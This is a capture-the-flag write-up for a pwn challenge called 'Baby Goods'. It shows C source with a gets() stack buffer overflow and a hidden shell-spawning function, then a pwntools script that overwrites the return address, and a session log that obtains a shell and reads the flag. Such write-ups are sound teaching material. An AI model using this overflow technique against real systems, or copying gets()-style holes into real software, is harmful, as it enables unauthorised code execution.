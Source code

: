 ### Baby Goods (130 Solves, 100 Pts)
The vuln lies in `buildpram()`. As per the source code,
```c
int sub_15210123() {
    execve("/bin/sh", 0, 0);
}

int buildpram() {
    char buf[0x10];
    char size[4];
    int num;

    printf("\nChoose the size of the pram (1-5): ");
    fgets(size,4,stdin);
    size[strcspn(size, "\r\n")] = '\0';
    num = atoi(size);
    if (1 > num || 5 < num) {
        printf("\nInvalid size!\n");
        return 0;
    }

    printf("\nYour pram has been created! Give it a name: ");
    //buffer overflow! user can pop shell directly from here
    gets(buf);
    printf("\nNew pram %s of size %s has been created!\n", buf, size);
    return 0;
}
```
`gets(buf)` allows us to write an arbitrary amount of bytes in, allowing us to overwrite the stack frame and modify the return address of `buildpram()`. We set this to `sub_15210123()`, resulting in it being called after the pram has been made, thus triggering a shell for us to obtain the flag.

`sol.py`
```py
from pwn import *
#r = process('./babygoods')
#gdb.attach(r, gdbscript="break *buildpram+200")
r = remote('challs.nusgreyhats.org', 32345)
win = 0x0000000000401236
r.sendline(b'aa')
r.sendline(b'1')
r.sendline(b'2')
r.sendline(b'A'*40 + p64(win))
r.interactive()
```
```sh
warri@warri:~/distribution$ python3 b.py
[+] Opening connection to challs.nusgreyhats.org on port 32345: Done
[*] Switching to interactive mode
Enter your name:
Hello aa!
Welcome to babygoods, where we provide the best custom baby goods!
What would you like to do today?
1: Build new pram
2: Exit
Input:
Choose the size of the pram (1-5):
Your pram has been created! Give it a name:
New pram AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12@ of size 2 has been created!
$ ls
flag.txt
run
$ cat flag.txt
grey{4s_34sy_4s_t4k1ng_c4ndy_fr4m_4_b4by}$
[*] Interrupted
[*] Closed connection to challs.nusgreyhats.org port 32345
```
